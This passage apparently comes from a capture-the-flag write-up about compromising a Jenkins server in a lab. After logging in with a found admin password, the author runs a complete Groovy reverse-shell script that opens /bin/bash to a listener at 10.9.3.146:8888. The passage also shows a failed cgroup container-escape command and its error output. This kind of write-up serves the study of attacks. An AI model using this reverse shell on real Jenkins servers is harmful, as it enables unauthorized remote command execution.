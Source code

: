 `Matching password spongebob for user admin`

![3b794ebe86d34141492cb17e242fa8e6.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/3b794ebe86d34141492cb17e242fa8e6.png)

After log in, I'm going to execute this as Groovy script (see https://github.com/gquere/pwn_jenkins):
```
String host="10.9.3.146";
int port=8888;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And we have another reverse shell, this time with the container:

![11c1eb66c989a4d1e74d97d121b87846.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/11c1eb66c989a4d1e74d97d121b87846.png)

I execute linPEAS.sh but nothing interesting.

I tried to escape from the container but i need to be root: https://www.exploit-db.com/exploits/47147
```
jenkins@jenkins:/tmp$ mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
mount: only root can use "--options" option
```

